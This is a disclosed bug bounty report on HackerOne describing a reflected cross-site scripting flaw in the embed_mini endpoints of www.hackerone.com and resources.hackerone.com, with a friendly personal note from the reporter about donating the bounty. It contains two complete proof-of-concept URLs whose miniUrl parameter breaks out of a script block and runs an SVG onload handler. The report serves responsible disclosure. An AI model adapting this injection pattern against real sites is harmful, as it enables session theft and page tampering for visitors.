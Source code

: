# Reflected XSS on www.hackerone.com and resources.hackerone.com

## Report Details
- **Report ID**: 840759
- **URL**: https://hackerone.com/reports/840759
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-04-05T20:14:22.252Z
- **Disclosed**: 2020-05-05T17:47:24.733Z

## Reporter
- **Username**: todayisnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Good day :)

I hope your doing as well as can be during these difficult times.

I have found xss at 2 endpoints:

https://www.hackerone.com/resources/

and 

https://resources.hackerone.com

The payloads that work are here:

https://www.hackerone.com/resources/read/embed_mini/11690/122736?miniPop=false&alwaysCover=false&miniTitle=XSS+POC&miniColor=333333&miniLinkToTitle=true&miniUrl=http://example.com%22%22,})%3C/script%3E%3Csvg+onload=confirm(location)%3E&miniBg=FFFFFF&hideBg=true&width=380&height=330&sharing=true

https://resources.hackerone.com/resources/read/embed_mini/11690/122736?miniPop=false&alwaysCover=false&miniTitle=XSS+POC&miniColor=333333&miniLinkToTitle=true&miniUrl=http://example.com%22%22,})%3C/script%3E%3Csvg+onload=confirm(location)%3E&miniBg=FFFFFF&hideBg=true&width=380&height=330&sharing=true


I've attached screenshots, the xss is intermittent, I'm not sure why maybe a cookie, maybe ip blocking, I'm not sure, but it happens :)

If it helps for others I have no idea what I am doing most of the time and brute force try things until they work :) 

Always learning, always feeling I know so little, and so much to learn, its awesome working together we all contribute our knowledge and effort :)

I've been taking a break the last few weeks to help to support family in this time of need, any bounty that is awarded I'm adding hackforgood as a collaborator and donating 100% of the bounty.  

It is great that hackerone is implementing this option to let us if we are in the position to share to donate funds, we have the option via the platform :)

It was shared with me that "You can add hackforgood as a collaborator on your reports and weight your bounty percentage on how much you’d like to donate. Our team will submit donations at the end of each month to WHO’s Covid-19 Response Fund" hope it works here will give it a shot :)

As always I wish you well on your side of the screen, to your loved ones, and that you can find both mental and physical wellness as much as possible right now :)

-Eric

## Impact

xss on the site, low risk since a marketing site :)

## Attachments
- resources.hackerone.com-xss.png
- www.hackerone.com-xss.png
